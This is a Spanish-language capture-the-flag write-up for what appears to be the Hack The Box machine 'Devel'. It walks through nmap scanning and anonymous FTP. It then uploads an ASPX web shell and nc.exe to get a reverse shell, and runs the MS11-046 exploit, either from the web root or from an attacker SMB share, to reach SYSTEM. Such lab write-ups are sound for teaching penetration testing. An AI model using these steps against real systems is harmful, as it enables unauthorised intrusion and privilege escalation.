

# Reconocimiento

Lanzamos una traza icmp para ver si nos responde la maquina

```shell
> ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=35.4 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 35.388/35.388/35.388/0.000 ms
```

Vamos a escanear todo el rango de puertos abiertos de la maquina

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

De los puertos encontrados vamos a lanzar scripts basicos de reconocimiento y escanear versiones

```shell
nmap -sCV -p21,80 10.10.10.5

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Puerto 21 (ftp)

Con lo escaneado anteriomente vemos que el puerto 21 ftp tiene habilitado el anonymous vamos a echarle un vistazo

```shell
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

## Puerto 80 (http)


Si vemos el codigo fuente la imagen tiene el mismo nombre que en lo que havia en el ftp


Si tenemos permisos para subir en el servidor ftp podriamos subir una web-shell en aspx para ejecutar comandos porque como es un IIS lo interpreta como un archivo

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

Vamos a subir el cmd.aspx en el servidor ftp con el comando `PUT`

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.       
ftp> put aspx_cmd.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
1438 bytes sent in 0.00 secs (29.1784 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  08:46AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Y podemos ejecutar comandos



Como podemos ejecutar comandos lo que nos interesa es poder ganar accesso a la maquina no o recibir una reverse shell con netcat pues vamos a subir el nc.exe al servidor ftp

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (295.1150 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  09:01AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
04-08-21  09:05AM                28160 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Claro pero nosotros no sabemos donde ahora esta el nc.exe pues buscando en google la ruta por defecto del IIS vemos que es la siguiente:


`C:\inetpub\wwwroot\nc.exe`

Pues nos enviamos una reverse shell por nc de la siguiente manera

Primero nos ponemos en escucha en otra ventana diferente con nc

```shell
> rlwrap nc -lvnp <puerto> # Rlwrap sirve para que podamos tener una shell mas interactiva
listening on [any] 4444 ...
```

Y estamos dentro

```shell
rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

# Escalada de Privilegios

Ahora nos queda elevar de privilegios porque tenemos por ahora un usuario con bajos privilegios

Vemos que es un windows 7 y la version es un tanto antigua vamos a buscar un **exploit** para poder escalar de privilegios al usuario **administrador**.

```shell
C:\Windows\Temp> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Buscamos en google `6.1.7600 N/A Build 7600` exploit y encontramos el repositorio de github de abatchy17

- Nos descargamos el `ms11-046.exe`

```shell
> wget https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/MS11-046.exe
> ls
 ms11-046.exe
```

Para subir-lo a la maquina victima se puede hacer de 2 formas desde ftp o compartiendo una carpeta compartida por smb

1. FTP

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put ms11-046.exe
local: ms11-046.exe remote: ms11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
139699 bytes sent in 0.16 secs (859.7100 kB/s)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv> C:\inetpub\wwwroot\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

2. Con smbserver

```shell
> smbserver.py smbFolder $(pwd)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv>\\10.10.16.2\smbFolder\exploit.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```